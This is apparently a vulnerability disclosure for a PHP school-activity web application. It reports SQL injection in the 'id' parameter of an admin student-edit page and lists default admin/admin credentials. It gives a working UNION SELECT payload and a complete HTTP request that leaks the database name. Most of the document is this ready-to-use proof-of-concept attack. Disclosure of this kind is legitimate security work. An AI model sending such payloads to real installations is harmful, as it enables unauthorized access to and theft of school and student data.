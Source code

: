 # School Activity Updates with SMS Notification v1.0 by janobe has SQL injection

BUG_Author: Moye

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/13799/school-activity-updates-sms-notification-phppdo.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /activity/admin/modules/modstudent/index.php?view=edit&id=

Vulnerability location: /activity/admin/modules/modstudent/index.php?view=edit&id=, id

dbname =db_wvsu

[+] Payload:  /activity/admin/modules/modstudent/index.php?view=edit&id=-201806%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /activity/admin/modules/modstudent/index.php?view=edit&id=-201806%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183560592-83cfe934-ff6c-45bb-b10a-1428f298a54a.png)
